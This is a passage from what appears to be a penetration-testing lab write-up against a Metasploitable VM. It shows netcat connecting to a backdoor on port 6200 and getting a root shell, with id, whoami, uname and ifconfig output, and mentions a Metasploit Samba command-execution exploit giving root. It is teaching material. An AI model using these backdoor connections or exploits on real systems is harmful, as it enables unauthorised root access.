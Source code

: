 and -v mentions Verbose.<p/><p> You can also do without `-v`, it just print out messages on Standard Error, such as when a connection occurs.<p/>

``` ruby Netcat FTP
root@Hacker:~# nc 192.168.2.7 6200 -v
192.168.2.7: inverse host lookup failed: Unknown server error : Connection timed out
(UNKNOWN) [192.168.2.7] 6200 (?) open
id
uid=0(root) gid=0(root)
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:fa:dd:2a  
          inet addr:192.168.2.7  Bcast:192.168.2.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fefa:dd2a/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:72642 errors:0 dropped:0 overruns:0 frame:0
          TX packets:20426 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:77577863 (73.9 MB)  TX bytes:1589401 (1.5 MB)
          Interrupt:19 Base address:0x2000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1670 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1670 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:793069 (774.4 KB)  TX bytes:793069 (774.4 KB)

ls
bin
boot
cdrom
dev
etc
home
```
<p>Voila!!!Finally we also got a shell with the help of Netcat tool.<p/>

##Samba Exploit

<p>The current version of `samba server` installed on the remote host is affected by a command execution vulerability,
where there is no needed of authentication to exploit this vulnerability. We kick started the metasploit, and we chose the below exploit module 
which helped us to gain the Root access of the remote system.<p/>
 
{% img http://i.imgur.com/OsaoIOl.png %}

<p>Finally!!! We rooted into remote system using the samba exploit.<p />
